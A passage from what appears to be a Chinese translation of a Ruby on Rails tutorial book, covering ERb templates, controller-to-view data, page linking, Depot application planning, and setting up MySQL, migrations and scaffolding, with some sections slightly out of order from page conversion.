```

当你刷新浏览器时，模板将生成以下HTML。

```
<ul>
  <li>Addition:  3 </li>
  <li>Concatenation: cowboy </li>
  <li>Time in one hour:   Tue May 16 08:55:14 CDT 2006 </li>
</ul>
```

在浏览器窗口中，你将看到类似以下内容。

- 加法：3
- 字符串连接：cowboy
- 一小时后时间：Sun May 07 16:06:43 CDT 2006

> 5. 实际上有三种方法，但第三种rjs仅对向已显示的页面添加AJAX魔法有用。我们在第559页讨论rjs。

此外，`.rhtml`文件中`<%`和`%>`之间（没有等号）的内容被解释为Ruby代码，执行后不会替换回输出中。有趣的是，这种处理可以与非Ruby代码混合使用。例如，我们可以制作一个节日版的`hello.rhtml`。

```
<% 3.times do %>
Ho! <br />
<% end %>
Merry Christmas!
```

这将生成以下HTML。

```
Ho! <br />
Ho! <br />
Ho! <br />
Merry Christmas!
```

注意文件中Ruby循环内的文本是如何在每次循环迭代时发送到输出流一次的。

但这里也有一些奇怪的地方。所有的空行是从哪里来的？它们来自输入文件。仔细想想，原始文件在第一行和第三行的`%>`之后立即包含一个换行符（或多个字符）。因此，`<% 3.times do %>`被从文件中删除，但换行符保留。每次循环时，这个换行符与`Ho!`行的完整文本一起添加到输出文件中。这就解释了输出中每个`Ho!`行之前的空行。同样，`<% end %>`之后的换行符解释了最后一个`Ho!`和`Merry Christmas!`行之间的空行。

通常，这并不重要，因为HTML不太关心空白。但是，如果你使用此模板机制创建电子邮件或`<pre>`块中的HTML，则需要删除这些空行。通过将ERb序列的末尾从`%>`更改为`-%>`来执行此操作。那个减号告诉Rails删除输出中紧跟的任何换行符。如果我们在3.times行中添加一个减号：

```
<% 3.times do -%>
Ho! <br />
<% end %>
Merry Christmas!
```

我们得到以下结果。

```
Ho! <br />
Ho! <br />
Ho! <br />
Merry Christmas!
```

##### 使开发更容易

你可能已经注意到我们到目前为止所做的开发的一些事情。随着我们向应用程序添加代码，我们不必重启正在运行的应用程序。它一直在后台愉快地运行。然而，我们进行的每一次更改在通过浏览器访问应用程序时都是可用的。这是怎么回事呢？

事实证明，基于WEBrick的Rails调度器非常聪明。在开发模式下（与测试或生产相反），当有新请求时，它会自动重新加载应用程序源文件。这样，当我们编辑应用程序时，调度器会确保运行最新的更改。这对开发来说非常棒。

然而，这种灵活性是有代价的——在你输入URL后，应用程序响应之前，它会导致短暂的停顿。这是由于调度器重新加载内容造成的。对于开发来说，这是值得付出的代价，但在生产中是不可接受的。因此，此功能在生产部署中被禁用（参见第614页的第27章，部署和生产）。

在包含`end`的行上添加减号：

```
<% 3.times do -%>
Ho! <br />
<% end -%>
Merry Christmas!
```

可以消除*Merry Christmas*之前的空行。

```
Ho! <br />
Ho! <br />
Ho! <br />
Merry Christmas!
```

一般来说，抑制这些换行符是品味问题，而非必要。然而，你将看到在野外使用减号的Rails代码，所以最好知道它的作用。

在以下示例中，循环设置一个变量，该变量在每次循环执行时插入到文本中。

```
<% 3.downto(1) do |count| -%>
<%= count %>... <br />
<% end -%>
Lift off!
```

这将发送以下内容到浏览器。


##### 添加时间

我们最初的问题是如何向应用用户显示时间。现在我们知道了如何让应用显示动态数据，接下来要解决的第二个问题是从哪里获取时间数据。

一种方法是在 `hello.rhtml` 模板中直接嵌入调用 Ruby 的 `Time.now` 方法：

```
<html>
  <head>
    <title>Hello, Rails!</title>
  </head>
  <body>
    <h1>Hello from Rails!</h1>
    <p>
      It is now <%= Time.now %>
    </p>
  </body>
</html>
```

这确实可行。每次访问此页面时，用户都会看到当前时间被替换到响应主体中。对于我们的简单应用来说，这或许已经足够了。但通常情况下，我们可能需要稍作调整。我们将把显示时间的确定过程移到控制器中，让视图只负责简单的展示工作。我们将修改控制器中的操作方法，将时间值设置到名为 `@time` 的实例变量中。

```ruby
class SayController < ApplicationController
  def hello
    @time = Time.now
  end
end
```

在 `.rhtml` 模板中，我们将使用这个实例变量将时间替换到输出中。

```erb
<html>
  <head>
    <title>Hello, Rails!</title>
  </head>
  <body>
    <h1>Hello from Rails!</h1>
      <p>
        It is now <%= @time %>
      </p>
  </body>
</html>
```

刷新浏览器窗口时，我们会看到时间以 Ruby 的标准格式显示：

请注意，每次在浏览器中刷新页面，显示的时间都会更新。看起来我们确实在生成动态内容。

为什么我们要费心把显示时间的逻辑放在控制器中，然后再在视图中使用它呢？问得好。在这个应用中，你确实可以直接在模板中嵌入对 `Time.now` 的调用，但通过将其放入控制器，你能获得一些好处。例如，未来我们可能希望扩展应用以支持多国用户。届时，我们就需要对时间显示进行本地化处理，既要选择适合用户区域设置的格式，也要选择适合其时区的时间。这会涉及相当多的应用层代码，将其嵌入视图层可能并不合适。通过在控制器中设置要显示的时间，我们的应用变得更加灵活——我们可以在控制器中更改显示格式和时区，而无需更新任何使用该时间对象的视图。时间是*数据*，应该由控制器提供给视图。当我们引入模型概念时，会看到更多类似的实践。

##### 乔问...
**视图是如何获取时间的？**

在描述视图和控制器时，我们展示了控制器将要显示的时间设置到实例变量中。`.rhtml` 文件使用该实例变量来替换当前时间。但控制器对象的实例数据是该对象的私有数据。ERb 是如何获取这些私有数据并在模板中使用的呢？

答案既简单又巧妙。Rails 进行了一些 Ruby 魔法操作，使得控制器对象的实例变量被注入到模板对象中。因此，视图模板可以像访问自己的变量一样，访问控制器中设置的任何实例变量。

有些人喜欢追问：“这些变量到底是*怎么*被设置的？” 这些人显然不相信魔法。建议圣诞节别和他们一起过。

##### 目前进展

让我们简要回顾一下当前应用的工作流程。

1.  用户访问我们的应用。在我们的案例中，是通过本地 URL 如 `http://localhost:3000/say/hello`。
2.  Rails 分析 URL。`say` 部分被视为控制器的名称，因此 Rails 创建一个新的 `SayController` Ruby 类实例（该类位于 `app/controllers/say_controller.rb`）。
3.  URL 路径的下一部分 `hello` 标识一个操作。Rails 在控制器中调用该名称的方法。此操作方法创建一个新的 `Time` 对象来保存当前时间，并将其存入 `@time` 实例变量。
4.  Rails 寻找用于显示结果的模板。它在 `app/views` 目录下搜索与控制器同名的子目录（即 `say`），并在该子目录中查找与操作同名的文件（`hello.rhtml`）。
5.  Rails 通过 ERb 处理此模板，执行任何嵌入的 Ruby 代码，并替换由控制器设置的值。
6.  结果返回给浏览器，Rails 完成此请求的处理。

这并非全部情况——Rails 为你提供了大量机会来覆盖这个基本工作流（我们很快就会利用这些机会）。就目前而言，我们的叙述展示了 Rails 哲学的基本部分之一：*约定优于配置*。通过提供便捷的默认值并应用特定的约定，Rails 应用通常使用很少甚至不需要外部配置——一切自然地融合在一起。

### 4.3 将页面链接在一起

只有一个页面的 web 应用是罕见的。让我们看看如何为我们的 *Hello, World!* 应用添加另一个令人惊叹的网页设计范例。

通常，应用中的每种页面样式都对应一个单独的视图。在我们的案例中，我们还将使用一个新的操作方法来处理该页面（尽管并非总是如此，正如本书后面将看到的那样）。我们将为这两个操作使用同一个控制器。同样，这并非必须，但我们现在没有迫切的理由使用新的控制器。

我们已经知道如何向 Rails 应用添加新的视图和操作。要添加操作，我们在控制器中定义一个新方法。我们将此操作命名为 *goodbye*。我们的控制器现在看起来像这样。

```ruby
class SayController < ApplicationController
  def hello
    @time = Time.now
  end

  def goodbye
  end
end
```

接下来，我们需要在 `app/views/say` 目录中创建一个新模板。这次它叫 `goodbye.rhtml`，因为默认情况下模板以关联的操作命名。

```html
<html>
  <head>
    <title>See You Later!</title>
  </head>
  <body>
    <h1>Goodbye!</h1>
    <p>
      It was nice having you here.
    </p>
  </body>
</html>
```

再次启动我们可靠的浏览器，但这次使用 URL [http://localhost:3000/say/goodbye](http://localhost:3000/say/goodbye) 指向我们的新视图。你应该会看到类似这样的内容。

现在我们需要将两个界面链接起来。我们将在 hello 界面上放置一个链接，带我们跳转到 goodbye 界面，反之亦然。在一个真实的应用中，我们可能希望将它们做成合适的按钮，但目前我们只使用超链接。

我们已经知道 Rails 使用约定来将 URL 解析为目标控制器及其中的操作。因此，一个简单的方法就是为我们的链接采用这种 URL 约定。文件 `hello.rhtml` 将包含以下内容。

```html
<html>
  ...
  <p>
    Say <a href="/say/goodbye">Goodbye</a>!
  </p>
  ...
```

而文件 `goodbye.rhtml` 则会指向另一个方向。

```html
<html>
  ...
  <p>
    Say <a href="/say/hello">Hello</a>!
  </p>
  ...
```

这种方法当然可行，但它有点脆弱。如果我们将应用移动到 Web 服务器上的不同位置，这些 URL 将不再有效。它还将关于 Rails URL 格式的假设编码到了我们的代码中；未来的 Rails 版本可能会改变这一点。

幸运的是，这些风险并非我们必须承担的。Rails 提供了一堆可以在视图模板中使用的*辅助方法*。这里，我们将使用辅助方法 `link_to`，它用于创建指向操作的超链接。使用 `link_to`，`hello.rhtml` 变成

```html
<html>
  <head>
    <title>Hello, Rails!</title>
  </head>
```

`link_to` 方法能做的远不止这些，但目前让我们慢慢来……


以下是应用程序主要页面的内容，大致了解用户如何在这些页面之间导航。在开发的这个早期阶段，这些页面流程可能尚不完整，但它们仍然能帮助我专注于需要完成的工作，并了解操作的先后顺序。


有些人喜欢用 Photoshop、Word 或（呃）HTML 来设计网页应用的页面流程。我喜欢用纸笔，这样更快，客户也能参与进来，拿起笔直接在纸上修改。



图 **5.1** 展示了我草拟的买家流程。它非常传统。买家看到商品目录页，每次从中选择一件商品。每选择一件商品就会加入购物车，每次选择后都会显示购物车。买家可以继续浏览目录页购物，也可以结账购买购物车中的商品。在结账过程中，我们会获取联系信息和支付详情，然后显示收据页面。目前我们还不知道如何处理支付，所以流程中的这些细节还相当模糊。

如图 **5.2** 所示，卖家流程也相当简单。登录后，卖家会看到一个菜单，可以选择创建或查看商品，或处理待发货订单。查看商品时，卖家可以选择编辑商品信息或直接删除该商品。



发货选项非常简单。它会显示每个尚未发货的订单，每页一个订单。卖家可以选择跳到下一个订单，也可以发货，并相应地使用页面上的信息。

发货功能在现实世界中显然不会长久存在，但发货也是那种现实情况常常比想象更复杂的领域。过早规定得太详细，我们很可能会出错。目前先保持现状，相信我们可以随着用户使用我们应用经验的积累而进行调整。

#### 数据

最后，我们需要考虑将要处理的数据。

注意，我们这里没有使用 *模式* 或 *类* 之类的词。我们也没有谈论数据库、表、键之类的。我们只是简单地谈论数据。在开发的这个阶段，我们甚至不知道是否会使用数据库——有时一个简单的平面文件比数据库表好用得多。

根据用例和流程，我们很可能会处理图 [5.3](../chapter05/figure5_3.html) 所示的数据。同样，纸笔


图 5.3：应用数据的初步构想

似乎比一些花哨的工具容易多了，但请选择最适合你的方式。

研究数据图表时提出了几个问题。当用户购买商品时，我们需要一个地方来保存他们购买的商品列表，所以我添加了购物车。但除了作为存放这个商品列表的临时场所外，购物车似乎有点像幽灵——我找不到任何有意义的东西可以存放在里面。为了反映这种不确定性，我在图表中的购物车框内放了一个问号。我相信这种不确定性会在我们实现 Depot 的过程中得到解决。

规划高层数据时也提出了订单中应包含哪些信息的问题。同样，我选择现在保持相当开放——当我们开始向客户展示我们的早期迭代时，我们会进一步完善这一点。

最后，你可能注意到我在行项目数据中重复了商品的价格。这里我稍微违反了“最初，保持简单”的原则，但这是基于经验的例外。如果商品价格发生变化，该价格变化不应反映在当前未结订单的行项目价格中，因此每个行项目都需要反映下单时的商品价格。

同样，此时我会再次与客户确认我们是否仍在正确的轨道上。（在我画这三张图表时，我的客户很可能就坐在房间里和我一起。）

#### 5.3 开始编码

那么，在与客户坐下来进行一些初步分析之后，我们准备好开始使用计算机进行开发了！我们将基于最初的三张图表进行工作，但我们很有可能很快就会把它们扔掉——随着我们收集反馈，它们会变得过时。有趣的是，这就是为什么我们没有在它们上面花太多时间——如果你没有花很长时间去创造某样东西，丢弃它就更容易。

在接下来的章节中，我们将开始基于当前的理解开发应用程序。然而，在翻页之前，我们只需要再回答一个问题：我们应该先做什么？

我喜欢与客户合作，以便共同确定优先级。在这种情况下，我会向她指出，在系统里定义一些基本商品之前，很难开发其他任何东西，所以我建议花几个小时让商品维护功能的初始版本运行起来。当然，她会同意的。

在本章中，我们将看到

-   创建新应用
-   配置数据库
-   创建模型和控制器
-   运行数据库迁移
-   使用静态和动态脚手架
-   执行验证和错误报告
-   使用视图和辅助方法

# 第6章

## 任务A：商品维护

我们的第一个开发任务是创建Web界面，以便维护商品信息——创建新商品、编辑现有商品、删除不需要的商品等。我们将通过小迭代来开发这个应用程序，其中*小*意味着“以分钟计”。让我们开始吧。

### 6.1 迭代A1：让东西跑起来

也许令人惊讶的是，我们应该在几乎不需要时间的情况下完成这个工作的第一个迭代。我们将从创建一个新的Rails应用程序开始，这是我们进行所有工作的地方。接下来，我们将创建一个数据库来存放我们的信息（实际上我们将创建三个数据库）。一旦基础工作就位，我们将

-   配置我们的Rails应用程序以指向我们的数据库，
-   创建表来存放商品信息，并且
-   让Rails为我们生成商品维护应用程序的初始版本。

#### 创建Rails应用程序

在第43页，我们看到了如何创建一个新的Rails应用程序。转到命令提示符，输入`rails`，后跟我们项目的名称。在本例中，我们的项目名为depot，因此输入

```
work> rails depot
```

我们会看到一堆输出滚动而过。完成后，我们发现创建了一个新的目录depot。这就是我们将进行工作的地方。

```
work> cd depot
depot> ls -p
README components/ doc/ public/ tmp/
Rakefile config/ lib/ script/ vendor/
app/ db/ log/ test/
```

#### 创建数据库

对于这个应用程序，我们将使用开源的MySQL数据库服务器（如果你跟着代码做，你也会需要它）。我这里使用的是MySQL 5版本。如果你使用不同的数据库服务器，创建数据库和授权所需的命令将会不同。

我们还必须简要谈谈数据库用户和密码。当你最初安装MySQL时，它带有一个名为*root*的用户。在本书中，我们将在开发和测试模式下使用root用户访问数据库。如果你在专用机器上进行开发和测试，这没问题。在生产环境中，或者如果你运行的是可被他人访问的数据库，你肯定希望创建专门的用户账户和密码以防止他人访问你的数据。让我重复一遍：部署前务必将生产数据库的用户名和密码更改为其他值。详情请参阅你的数据库文档。

我们该给数据库取什么名字？嗯，我们可以叫它任何名字（Walter是个好名字）。然而，与大多数Rails一样，有一个约定。我们将应用程序命名为“depot”，所以让我们将开发数据库命名为`depot_development`。

我们将使用`mysqladmin`命令行客户端来创建数据库，但如果你更喜欢使用phpmyadmin或CocoaMySQL之类的工具，请随意。

```
depot> mysqladmin -u root create depot_development
```

现在你将体验到顺应潮流的一个好处。¹ 如果你使用MySQL，并且已经按照建议的名称创建了开发数据库，那么你现在可以直接跳到第 [6.1 节，*测试你的配置*](#)。

#### 配置应用程序

在许多简单的脚本语言Web应用程序中，连接数据库的信息直接嵌入代码中——你可能会发现一个对某个`connect`方法的调用，传入主机和数据库名称以及用户名和密码。这是危险的，因为密码信息位于Web可访问目录中的文件中。一个小的服务器配置错误就可能将你的密码暴露给全世界。

将连接信息嵌入代码的方法也不够灵活。可能你刚开始是用开发数据库进行编码，接下来可能需要对测试数据库运行相同的代码。最终，你希望将其部署到生产环境中。每次切换目标数据库时，都必须编辑连接调用。编程中有一个规则

---
¹ 或者，正如Rails界所说（令人厌烦地），*约定优于配置*


也就是说，只有在将应用程序切换到生产环境时，你才会输错密码。

聪明的开发者会将连接信息与代码分离。有时你可能希望使用某种存储库来保存所有这些信息（Java开发者经常使用JNDI来查找连接参数）。对于我们即将编写的普通Web应用来说，这有点过于复杂，所以Rails直接使用一个平面文件。你会在 `config/database.yml` 中找到它。

```
# ... some comments ...

development:
  adapter: mysql
  database: depot_development
  username: root
  password:
  host: localhost
```

`database.yml` 文件包含了数据库连接信息。它分为三个部分，分别对应开发、测试和生产数据库。如果你选择顺应潮流，使用MySQL并以 `root` 作为用户名，那么你的 `database.yml` 文件可能开箱即用——无需任何修改。但是，如果你决定另辟蹊径，使用不同的配置，你可能需要编辑此文件。只需用你喜欢的文本编辑器打开它，并修改任何需要更改的字段。以下列表中的数字对应源代码清单旁边的数字。

1.  *adapter* 部分告诉Rails你使用的是哪种数据库（之所以称为 *adapter*，是因为Rails利用这些信息来适应特定数据库的特性）。我们使用MySQL，所以适配器名称是 `mysql`。第17.4节 *连接数据库*（第291页）列出了所有不同适配器类型的完整列表。如果你使用的不是MySQL数据库，则需要查阅此表，因为每种数据库适配器在 `database.yml` 中都有不同的参数集。以下参数是针对MySQL的。
2.  `database` 参数给出了数据库的名称。（记住，我们在前面的页面中使用 `mysqladmin` 创建了 `depot_development` 数据库。）
3.  *username* 和 *password* 参数让你的应用程序登录数据库。我们使用的是 `root` 用户，且没有密码。如果你的数据库设置不同，则需要更改这些字段。

> 2.  名称中的 `.yml` 部分代表YAML，即YAML Ain't a Markup Language。这是一种在平面文件中存储结构化信息的简单方式（它不是XML）。最新版本的Ruby内置了对YAML的支持。

##### 选择不同的数据库

你可以通过更改config目录下database.yml文件中的值，来告诉Rails使用哪个数据库适配器。显然，你可以先创建应用程序，然后编辑此文件以使用正确的适配器。

但是，如果你知道你将使用MySQL以外的数据库，那么在创建应用程序时告诉Rails，可以省去一些麻烦。

```
work> rails depot --database=sqlite3
```

命令 `rails --help` 会列出可用选项。请记住，你需要为所选数据库安装相应的Ruby库。

如果你将用户名留空，MySQL *可能* 会使用你的登录名连接到数据库。这很方便，因为这意味着不同的开发者在连接时将使用他们自己的用户名。但是，我们听说在某些MySQL、数据库驱动程序和操作系统的组合下，将这些字段留空会使Rails尝试以 *root* 用户身份连接到数据库。如果你遇到“Access denied for user 'root'@'localhost.localdomain'”这样的错误，请在这两个字段中填入明确的用户名和密码。

`host` 参数告诉Rails你的数据库运行在哪台机器上。大多数开发者在自己的机器上运行本地MySQL副本，因此默认值 `localhost` 即可。

记住——如果你刚入门并且对使用Rails的默认设置感到满意，那么你就不必担心所有这些配置细节。

##### 测试你的配置

在进一步操作之前，我们可能应该测试一下你目前的配置——我们可以检查Rails是否能连接到你的数据库，以及它是否有创建表所需的访问权限。从应用程序的顶级目录开始，在命令提示符下键入以下神奇的咒语。（它是神奇的，因为我们现在还不需要知道它具体在做什么。我们稍后会明白。）

```
depot> rake db:migrate
```

会发生以下两种情况之一：要么你会得到一行回显（类似“in (/Users/dave/work/depot)”），要么你会得到某种错误。错误意味着Rails无法与你的数据库协作。如果确实看到错误，可以尝试以下方法。

-   检查你为database.yml中development部分的数据库提供的名称。它应该与你创建的数据库名称（使用mysqladmin或其他数据库管理工具创建）相同。
-   检查database.yml中的用户名和密码是否与你在第69页创建的匹配。
-   检查你的数据库服务器是否正在运行。
-   检查你是否可以从命令行连接到它。如果使用MySQL，请运行以下命令。

```
depot> mysql -u root depot_development
mysql>
```

-   如果可以从命令行连接，你能否创建一个虚拟表？（这测试数据库用户是否有足够的数据库访问权限。）

```
mysql> create table dummy(i int);
mysql> drop table dummy;
```

-   如果可以从命令行创建表但 `rake db:migrate` 失败，请仔细检查database.yml文件。如果文件中有 `socket:` 指令，尝试在每行前面加上井号（#）将其注释掉。
-   如果你看到错误“没有此类文件或目录...”且错误中的文件名是 `mysql.sock`，那么你的Ruby MySQL库找不到你的MySQL数据库。如果你是在安装数据库之前安装的库，或者使用二进制分发版安装库而该分发版对MySQL套接字文件位置的假设错误，就可能发生这种情况。要解决此问题，最好的方法是重新安装Ruby MySQL库。如果这不可行，请在database.yml文件中添加一行 `socket:`，包含指向系统上MySQL套接字的正确路径。

```
development:
  adapter: mysql
  database: depot_development
  username: root
  password:
  host: localhost
  socket: /var/lib/mysql/mysql.sock
```

-   如果你得到错误“Mysql not loaded”，这意味着你运行的是旧版本的Ruby Mysql库。Rails至少需要2.5版本。
-   一些读者还报告收到错误消息“Client does not support authentication protocol requested by server; consider upgrading MySQL client.”（客户端不支持服务器请求的身份验证协议；请考虑升级MySQL客户端。）已安装的MySQL版本与其访问库之间的这种不兼容性，可以通过遵循 <http://dev.mysql.com/doc/mysql/en/old-client.html> 上的说明并执行MySQL命令（如 `set password for 'some_user'@'some_host' = OLD_PASSWORD('newpwd')`：）来解决。
-   如果你在Windows的Cygwin下使用MySQL，指定 `localhost` 作为主机可能会出现问题。尝试改用 `127.0.0.1`。
-   如果你使用纯Ruby MySQL库（而不是性能更高的C库），可能会遇到问题。各种操作系统的解决方案可在Rails wiki上找到。<sup>3</sup>
-   最后，你可能会在 `database.yml` 文件的格式上遇到问题。读取此文件的YAML库对制表符字符异常敏感。如果你的文件包含制表符字符，就会出问题。（你还以为你选择Ruby而不是Python是因为不喜欢Python对空白的敏感性，对吧？）

如果所有这些听起来很吓人，请别担心。实际上，数据库连接大多数时候都能顺利进行。一旦Rails与数据库连接成功，你就无需再担心它了。

##### 创建Products模型和表

回到第66页的图5.3，我们勾勒出了products表的基本内容。现在让我们将其变为现实。我们需要创建一个数据库表和一个Rails `model`，让我们的应用程序能够使用该表。

至此，我们需要做一个决定。如何指定数据库表的结构？我们是否应该使用底层的Data Definition Language（数据定义语言，DDL）语句（`create table` 及其相关语句）？或者是否有更高级的方法，一种让架构（schema）随时间推移更容易更改的方法？当然有！实际上，有多种替代方案。

许多人喜欢使用交互式工具来创建和维护架构。例如，phpMyAdmin工具允许你使用Web表单来维护MySQL数据库。乍一看，这种数据库维护方式很有吸引力——毕竟，还有什么比只需在表单中输入一些内容然后让工具完成所有工作更好呢？然而，这种便利是有代价的：你所做的更改历史会丢失，并且你所有的更改实际上都是不可逆的。它还使得部署应用程序变得困难：你必须记住在开发和生产数据库上进行相同的更改（我们都知道，如果你要误操作，那一定会是在编辑生产架构的时候）。

<sup>3</sup> <http://wiki.rubyonrails.com/rails/pages/Mysql+Connection+Problems/>

幸运的是，Rails 提供了一个折中方案。使用 Rails，你可以定义*数据库迁移*。每个迁移代表你希望对数据库进行的一项更改，并以与数据库无关的方式在源文件中表达。这些更改可以同时更新数据库模式和数据库表中的数据。你可以应用这些迁移来更新数据库，也可以撤销它们以回滚数据库。我们将在第 263 页开始的整章中详细讨论迁移，因此目前，我们将直接使用它们而不做过多解释。

我们究竟如何创建这些迁移呢？嗯，想想看，我们通常希望在创建包装数据库表的 Rails 模型的同时，就创建该数据库表。因此 Rails 提供了一个巧妙的快捷方式。当你使用生成器创建一个新模型时，Rails 会自动创建一个你可以用来创建相应表的迁移。（正如我们稍后将看到的，Rails 也使得仅创建迁移本身变得很容易。）

那么，让我们开始为我们的 products 表创建模型和迁移吧。请注意，在随后的命令行中，我们使用了单数形式 `product`。在 Rails 中，一个模型会自动映射到一个数据库表，该表的名称是模型类名的复数形式。在我们的例子中，我们要求创建一个名为 `Product` 的模型，因此 Rails 将其与名为 `products` 的表关联起来。（它是如何找到那个表的呢？我们在配置 `config/database.yml` 中的 `development` 条目时就已经告诉它去哪里查找了。）

> 名称映射
← page 241

```
depot> ruby script/generate model product
    exists  app/models/
    exists  test/unit/
    exists  test/fixtures/
    create  app/models/product.rb
    create  test/unit/product_test.rb
    create  test/fixtures/products.yml
    create  db/migrate
    create  db/migrate/001_create_products.rb
```

生成器创建了一堆文件。我们感兴趣的是模型本身 `product.rb` 和迁移文件 `001_create_products.rb`。让我们先看看那个迁移文件。

迁移文件有一个序列号前缀（001）、一个名称（`create_products`）和文件扩展名（`.rb`，因为它是 Ruby 程序）。让我们向这个文件中添加在数据库中创建表的代码。进入 `db/migrate` 目录并打开文件 `001_create_products.rb`。你会看到两个 Ruby 方法。

```
class CreateProducts < ActiveRecord::Migration
  def self.up
    create_table :products do |t|
      # t.column :name, :string
    end
  end

  def self.down
    drop_table :products
  end
end
```

`up` 方法用于将迁移应用到数据库。定义我们表的代码就放在这里。`down` 方法则撤销 `up` 方法的效果：当数据库回滚到之前的版本时运行。你可以看到 Rails 已经在这两个方法中添加了创建和删除表的代码。我们现在的任务是告诉它我们想要的列。

编辑文件，使其看起来像下面这样。

```
class CreateProducts < ActiveRecord::Migration
  def self.up
    create_table :products do |t|
      t.column :title, :string
      t.column :description, :text
      t.column :image_url, :string
    end
  end

  def self.down
    drop_table :products
  end
end
```

这个文件看起来很像我们可能直接提供给数据库的原始 DDL，但它实际上是 Ruby 代码。在迁移中，我们可能会用 `create_table` 代替直接向 MySQL 或 Oracle 输入的 `create table`。我们的 `up` 方法为 `products` 表定义了三个列。Ruby 不是一种很棒的语言吗？

现在我们让 Rails 将这个迁移应用到我们的开发数据库。这使用了 `rake` 命令。Rake 就像一个随时待命的可靠助手：你告诉它完成某项任务，它就会去完成。在这个例子中，我们将告诉 Rake 将任何尚未应用的迁移应用到我们的数据库。

```
depot> rake db:migrate
(in /Users/dave/work/depot)
== CreateProducts: migrating ====================================
-- create_table(:products)
   -> 0.0625s
== CreateProducts: migrated (0.0656s) ===========================
```

就是这样。Rake 查找所有尚未应用到数据库的迁移并应用它们。在我们的例子中，`products` 表被添加到 `database.yml` 文件的 `development:` 部分定义的数据库中。⁴

4. 如果你觉得有趣，可以尝试回滚迁移。只需输入 `depot>rake db:migrate VERSION=0`，你的模式就会被传回过去，`products` 表将消失。再次调用 `rake db:migrate` 将重新创建它。

Rake 是如何知道哪些迁移已经应用、哪些尚未应用到你的数据库的呢？在运行迁移后看看你的模式。你会发现一个名为 `schema_info` 的表，它被用来跟踪版本号。⁵

##### 创建你的控制器

正如我们在查看 MVC 架构时所看到的，我们的应用程序将需要一个控制器来协调维护产品列表时必须完成的工作。我们将这个控制器称为 `admin`。使用 Rails 方便的生成器来创建它：

```
depot> ruby script/generate controller admin
  exists  app/controllers/
  exists  app/helpers/
  create  app/views/admin
  exists  test/functional/
  create  app/controllers/admin_controller.rb
  create  test/functional/admin_controller_test.rb
  create  app/helpers/admin_helper.rb
```

我们稍后会看到所有这些文件的作用。

##### 创建维护应用程序

好了。所有的基础工作都已完成。我们将 Depot 应用程序设置为一个 Rails 项目。我们创建了开发数据库并配置了应用程序以能够连接到它。我们创建了一个 `admin` 控制器和一个 product 模型，并使用迁移创建了相应的 `products` 表。是时候编写维护应用了：

使用你喜欢的编辑器，打开 `app/controllers` 目录中的文件 `admin_controller.rb`。它应该看起来像这样。

```
class AdminController < ApplicationController
end
```

编辑它，添加一行代码，使其现在看起来像这样。

下载 `depot_a/app/controllers/admin_controller.rb`

```
class AdminController < ApplicationController
  scaffold :product
end
```

这并不难，不是吗？

这额外的一行代码就编写了一个基本的维护应用程序。`scaffold` 声明告诉 Rails 在运行时生成应用程序代码，而 `:product` 参数告诉它我们想使用 product 模型来维护数据。在我们担心这里幕后到底发生了什么之前，让我们先试试我们闪亮的新应用程序。首先，我们将启动 Rails 自带的基于 WEBrick 的本地 Web 服务器。

```
depot> ruby script/server
=> Booting WEBrick...
=> Rails application started on http://0.0.0.0:3000
=> Ctrl-C to shutdown server; call with --help for options
[2006-01-09 19:41:37] INFO  WEBrick 1.3.1
[2006-01-09 19:41:37] INFO  ruby 1.8.2 (2004-12-30) [powerpc-darwin8.2.0]
[2006-01-09 19:41:37] INFO  WEBrick::HTTPServer#start: pid=4323 port=3000
```

就像在第 4 章 *即时满足* 中我们的演示应用程序一样，这个命令在我们的本地主机上启动一个 Web 服务器，端口为 3000。⁶ 让我们连接到它。请记住，我们提供给浏览器的 URL 包含端口号（3000）和小写的控制器名称（`admin`）。

